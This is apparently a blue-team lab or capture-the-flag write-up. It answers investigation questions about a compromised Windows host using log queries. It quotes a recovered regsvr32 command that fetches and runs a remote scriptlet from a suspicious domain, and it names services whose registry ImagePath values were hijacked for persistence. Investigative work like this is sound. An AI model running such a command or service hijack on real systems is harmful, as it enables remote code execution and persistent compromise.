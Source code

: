 
### Questions and Answers section:

-  What is the full command-line value of the process spawned by `spoofer.exe`?

<u>Query used</u>:
```c
process.name: spoofer.exe
```

Output:
![](/assets/img/Pasted image 20240508220224.png)

<u>Answer</u>:
```c
"C:\Windows\Tasks\spoofer.exe" -c "regsvr32 /s /n /u /i:http://www.oneedirve.xyz/321c3cf/teams.sct scrobj.dll" 
```

	- So this unregisters the 'scrobj.dll' and then self-register it from the downloaded one from the 'http://www.oneedirve.xyz'?


- What is the name of the `other` service that was abused besides `SNMPTRAP`? For this one, we want to know which `registry key value` was modified that was related to `services.exe`. So we can start our search from there...

<u>Query</u>:
```c
process.name : services.exe
```

We found that the previously abused registry value was `SNMPTRAP` by following the `services.exe` and OTHER related registry path from it such as:
```c
HKLM\\System\\CurrentControlSet\\Services\\*\\ImagePath

and found...

HKLM\\System\\CurrentControlSet\\Services\\SNMPTRAP\\ImagePath

Are there other services we can find with the format:

HKLM\\System\\CurrentControlSet\\Services\\<'service'>\\ImagePath
```

Found one!
![](/assets/img/Pasted image 20240508221145.png)

Another one:
![](/assets/img/Pasted image 20240508221246.png)

<u>Answer</u>:
```c
(1) HKLM\\System\\CurrentControlSet\\Services\\'Spooler'\\ImagePath
(2) HKLM\\System\\CurrentControlSet\\Services\\'WdNisDrv'\\ImagePath
```
